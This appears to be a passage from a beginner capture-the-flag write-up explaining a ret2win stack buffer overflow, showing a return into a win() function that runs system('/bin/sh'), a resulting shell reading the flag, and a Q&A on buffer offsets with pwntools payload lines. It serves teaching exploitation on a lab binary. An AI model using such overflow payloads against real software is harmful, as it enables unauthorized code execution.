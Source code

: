 **ret executes:**
```
pop rip              ; RIP = 0x4011f6 (win function!)
jmp 0x4011f6         ; Jump to win!
```

### Step 5: win() Executes

```c
void win(void) {
    system("/bin/sh");  // Shell spawned!
}
```

### Step 6: Shell! 🎉

```bash
$ whoami
ctf
$ cat flag.txt
sun{It4chI_b3ats_0b!to_nO_d!ff}
$
```

---

## Common Beginner Questions

### Q1: Why do we overflow saved RBP?

**A:** Because it's **in the way!** Memory writes sequentially - you cannot skip bytes.

```
To reach return address at position 112,
you MUST write through positions 0-111.

Position 0-103:   Buffer
Position 104-111: Saved RBP ← Can't skip!
Position 112-119: Return address ← Goal
```

### Q2: What value should we put at saved RBP?

**A:** For Jacksonville, **any value works!**

```python
# All of these work:
payload += p64(0)             # Zero
payload += p64(0x40101a)      # ret_gadget
payload += p64(0xdeadbeef)    # Any value
payload += b"BBBBBBBB"        # Random bytes
```

Because `win()` doesn't use RBP for anything.
